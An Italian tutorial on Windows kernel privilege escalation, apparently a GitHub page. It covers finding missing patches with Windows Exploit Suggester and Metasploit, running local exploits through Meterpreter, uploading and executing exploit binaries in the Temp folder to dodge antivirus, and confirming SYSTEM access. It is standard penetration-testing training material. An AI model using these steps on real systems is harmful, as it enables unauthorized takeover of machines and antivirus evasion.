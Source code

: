 
# Windows Kernel Exploit

Il kernel è il cuore del sistema operativo. In un sistema Windows, il kernel prende il nome di **Windows NT** e gestisce l’accesso diretto alle risorse di sistema e all’hardware. Funziona come un intermediario tra il software e le componenti fisiche, consentendo ai programmi di interagire in modo sicuro con la memoria, il processore, i dispositivi, ecc.

Windows distingue due modalità operative:

- **User Mode**: modalità con accesso limitato alle risorse. Le applicazioni comuni vengono eseguite qui, in uno spazio isolato per motivi di sicurezza.
- **Kernel Mode**: modalità privilegiata, con accesso illimitato alle risorse. Qui operano i driver, il gestore della memoria, il file system e tutte le funzioni di basso livello.

L’obiettivo di un **Windows Kernel Exploit** è sfruttare una vulnerabilità nella modalità kernel per passare da un utente con privilegi limitati a uno con privilegi **SYSTEM**, ottenendo così il controllo totale sul sistema.

 Attenzione: interagire direttamente con il kernel è pericoloso. Un errore può causare crash di sistema, perdita di dati o BSOD. 

## Fasi di exploit

### 1. Rilevamento delle vulnerabilità

Ogni sistema Windows può presentare vulnerabilità diverse, in base alla versione del sistema operativo, al livello di patch applicate e alle configurazioni installate.

Per identificare queste vulnerabilità, possiamo usare:

- `post/multi/recon/local_exploit_suggester` di Metasploit
- `Windows Exploit Suggester` (WES) scaricabile da <a href="https://github.com/AonCyberLabs/Windows-Exploit-Suggester">GitHub</a>

WES è uno script Python che confronta le informazioni raccolte con `systeminfo` sul target con un database di bollettini Microsoft, identificando patch mancanti ed eventuali exploit associati. Può anche indicare se esistono:

- moduli Metasploit ([M])
- exploit pubblici ([E])
- vulnerabilità senza bollettino ufficiale ([*])

Il simbolo **[M]** indica che esiste un modulo già pronto su Metasploit.  
Il simbolo **[E]** fa riferimento a un exploit disponibile in forma di **proof-of-concept** (PoC), solitamente scaricabile da siti come Exploit-DB.  
Il simbolo **[*]** indica che manca un bollettino ufficiale (ad esempio, vulnerabilità zero-day note ma non ancora pubblicate da Microsoft).

Un’altra ottima risorsa è la repository <a href="https://github.com/SecWiki/windows-kernel-exploits">Windows Kernel Exploits</a>

Questa raccoglie centinaia di exploit per il kernel di Windows, organizzati per CVE. Ogni exploit è fornito con codice sorgente o binari compilati pronti all’uso.

### 2. Esecuzione via Metasploit

Dopo aver identificato un exploit tramite `local_exploit_suggester`, puoi eseguirlo direttamente in Metasploit:

`use <nome_modulo>` <br>
`set SESSION <numero_sessione>` <br>
`set LHOST <tuo_IP>` <br>
`set LPORT <porta>` <br>
`run` <br>

Per usare `local_exploit_suggester`:

1. Ottieni una sessione Meterpreter
2. Esegui `background` per metterla in pausa
3. Lancia:

`use post/multi/recon/local_exploit_suggester` <br>
`set SESSION <id_sessione>` <br>
`run` <br>

### 3. Esecuzione manuale

Puoi anche eseguire exploit manualmente. Ecco i passaggi:

1. Clona la repository:

`git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester` <br>
`cd Windows-Exploit-Suggester` <br>

2. Aggiorna il database:

`./windows-exploit-suggester.py --update`

3. Ottieni le informazioni del target:

Vai su una shell del target e digita:

`systeminfo > systeminfo.txt`

4. Copia `systeminfo.txt` sulla tua macchina, poi esegui:

`./windows-exploit-suggester.py --database 2024-*.xls --systeminfo systeminfo.txt`


Ti verrà restituita una lista di vulnerabilità, ordinata per probabilità di successo.

Se decidi di usare un exploit da ExploitDB o dalla repo SecWiki:

- Trasferisci il binario sul target con Meterpreter:

`cd C:\` <br>
`ls` <br>
`cd Temp\` <br>
`upload ~/Downloads/exploit.exe` <br>
`shell` <br>
`exploit.exe` <br>

La cartella `Temp` viene usata per evitare di scrivere nella home dell’utente ed eludere possibili controlli o antivirus.

Una volta eseguito l’exploit, controlla i privilegi ottenuti:

`whoami`

Se la risposta è `NT AUTHORITY\SYSTEM`, l’elevazione è riuscita.

---

